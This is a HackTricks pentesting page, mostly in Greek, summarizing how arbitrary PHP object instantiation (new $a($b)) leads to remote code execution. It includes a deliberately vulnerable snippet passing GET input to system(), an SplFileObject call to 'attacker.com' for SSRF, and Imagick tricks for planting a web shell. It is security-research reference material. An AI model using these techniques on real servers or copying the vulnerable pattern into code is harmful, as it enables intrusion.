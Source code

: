 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Εισαγωγή

Η δημιουργία νέων αυθαίρετων αντικειμένων, όπως το `new $_GET["a"]($_GET["a"])`, μπορεί να οδηγήσει σε Remote Code Execution (RCE), όπως αναφέρεται σε μια [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Αυτό το έγγραφο επισημαίνει διάφορες στρατηγικές για την επίτευξη RCE.

## RCE μέσω Προσαρμοσμένων Κλάσεων ή Αυτοφόρτωσης

Η σύνταξη `new $a($b)` χρησιμοποιείται για την αρχικοποίηση ενός αντικειμένου όπου **`$a`** αντιπροσωπεύει το όνομα της κλάσης και **`$b`** είναι το πρώτο επιχείρημα που περνάει στον κατασκευαστή. Αυτές οι μεταβλητές μπορούν να προέρχονται από εισόδους χρηστών όπως GET/POST, όπου μπορεί να είναι συμβολοσειρές ή πίνακες, ή από JSON, όπου μπορεί να εμφανίζονται ως άλλοι τύποι.

Σκεφτείτε το παρακάτω απόσπασμα κώδικα:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Σε αυτή την περίπτωση, η ρύθμιση του `$a` σε `App` ή `App2` και του `$b` σε μια εντολή συστήματος (π.χ., `uname -a`) έχει ως αποτέλεσμα την εκτέλεση αυτής της εντολής.

**Οι συναρτήσεις αυτόματης φόρτωσης** μπορούν να εκμεταλλευτούν αν δεν είναι άμεσα προσβάσιμες τέτοιες κλάσεις. Αυτές οι συναρτήσεις φορτώνουν αυτόματα κλάσεις από αρχεία όταν είναι απαραίτητο και ορίζονται χρησιμοποιώντας `spl_autoload_register` ή `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Η συμπεριφορά της αυτόματης φόρτωσης διαφέρει ανάλογα με τις εκδόσεις PHP, προσφέροντας διαφορετικές δυνατότητες RCE.

## RCE μέσω Ενσωματωμένων Κλάσεων

Λείποντας προσαρμοσμένες κλάσεις ή αυτόματους φορτωτές, **οι ενσωματωμένες κλάσεις PHP** μπορεί να είναι επαρκείς για RCE. Ο αριθμός αυτών των κλάσεων κυμαίνεται μεταξύ 100 και 200, ανάλογα με την έκδοση PHP και τις επεκτάσεις. Μπορούν να καταγραφούν χρησιμοποιώντας `get_declared_classes()`.

Οι κατασκευαστές που ενδιαφέρουν μπορούν να εντοπιστούν μέσω του API αντανάκλασης, όπως φαίνεται στο παρακάτω παράδειγμα και στον σύνδεσμο [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Η RCE μέσω συγκεκριμένων μεθόδων περιλαμβάνει:**

### **SSRF + Phar Deserialization**

Η κλάση `SplFileObject` επιτρέπει SSRF μέσω του κατασκευαστή της, επιτρέποντας συνδέσεις σε οποιοδήποτε URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF μπορεί να οδηγήσει σε επιθέσεις αποσυμπίεσης σε εκδόσεις του PHP πριν από την 8.0 χρησιμοποιώντας το πρωτόκολλο Phar.

### **Εκμετάλλευση PDOs**

Ο κατασκευαστής κλάσης PDO επιτρέπει συνδέσεις σε βάσεις δεδομένων μέσω DSN συμβολοσειρών, ενδεχομένως επιτρέποντας τη δημιουργία αρχείων ή άλλες αλληλεπιδράσεις:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Οι εκδόσεις του PHP μέχρι 5.3.22 και 5.4.12 ήταν ευάλωτες σε επιθέσεις XXE μέσω των κατασκευαστών `SoapClient` και `SimpleXMLElement`, ανάλογα με την έκδοση του libxml2.

## RCE μέσω της Επέκτασης Imagick

Στην ανάλυση των **εξαρτήσεων ενός έργου**, ανακαλύφθηκε ότι η **Imagick** θα μπορούσε να αξιοποιηθεί για **εκτέλεση εντολών** δημιουργώντας νέες αντικείμενα. Αυτό παρουσιάζει μια ευκαιρία για εκμετάλλευση ευπαθειών.

### VID parser

Η δυνατότητα του VID parser να γράφει περιεχόμενο σε οποιαδήποτε καθορισμένη διαδρομή στο σύστημα αρχείων εντοπίστηκε. Αυτό θα μπορούσε να οδηγήσει στην τοποθέτηση ενός PHP shell σε έναν διαδικτυακά προσβάσιμο φάκελο, επιτυγχάνοντας Remote Code Execution (RCE).

#### VID Parser + Αποστολή Αρχείων

Σημειώνεται ότι το PHP αποθηκεύει προσωρινά τα ανεβασμένα αρχεία στο `/tmp/phpXXXXXX`. Ο VID parser στην Imagick, χρησιμοποιώντας το πρωτόκολλο **msl**, μπορεί να χειριστεί χαρακτήρες μπαλαντέρ σε διαδρομές αρχείων, διευκολύνοντας τη μεταφορά του προσωρινού αρχείου σε μια επιλεγμένη τοποθεσία. Αυτή η μέθοδος προσφέρει μια επιπλέον προσέγγιση για την επίτευξη αυθαίρετης εγγραφής αρχείων στο σύστημα αρχείων.

### PHP Crash + Brute Force

Μια μέθοδος που περιγράφεται στην [**αρχική ανάλυση**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) περιλαμβάνει την αποστολή αρχείων που προκαλούν μια κατάρρευση του διακομιστή πριν από τη διαγραφή. Με την εκτέλεση brute force στο όνομα του προσωρινού αρχείου, καθίσταται δυνατή η εκτέλεση αυθαίρετου PHP κώδικα από την Imagick. Ωστόσο, αυτή η τεχνική βρέθηκε ότι ήταν αποτελεσματική μόνο σε μια παλιά έκδοση του ImageMagick.

## Αναφορές

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
